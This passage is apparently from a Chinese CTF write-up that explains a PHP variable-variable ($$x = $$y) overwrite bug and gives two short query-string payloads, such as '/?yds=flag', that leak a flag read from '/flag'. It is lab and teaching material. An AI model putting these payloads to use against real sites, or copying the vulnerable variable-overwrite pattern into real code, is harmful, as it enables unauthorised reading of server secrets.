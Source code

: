 ```php
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
```

`flag.php`为

```php
<?php

$flag = file_get_contents('/flag');
```

#### 1.利用handsome

`/?handsome=flag`
通过如下
`$handsome=$flag`
从而成功获取`flag`
为满足条件退出追加两个参数 `x=flag&flag=x`

```php
foreach($_GET as $x => $y){
    $$x = $$y; //GET型变量重新赋值为当前文件变量中以其值为键名的值
}
foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){ //如果GET型中flag变量的值等于GET型中一个不为flag的键名则退出
        
        exit($handsome); //exit显然能利用
    }
}
```

#### 2.利用yds

比较简单 直接 `/?yds=flag`即可

```php
foreach($_GET as $x => $y){
    $$x = $$y; //GET型变量重新赋值为当前文件变量中以其值为键名的值
}
 //如果GET型和POST型中都没有变量flag,则退出
if(!isset($_GET['flag']) && !isset($_POST['flag'])){ 
    exit($yds);
}
```
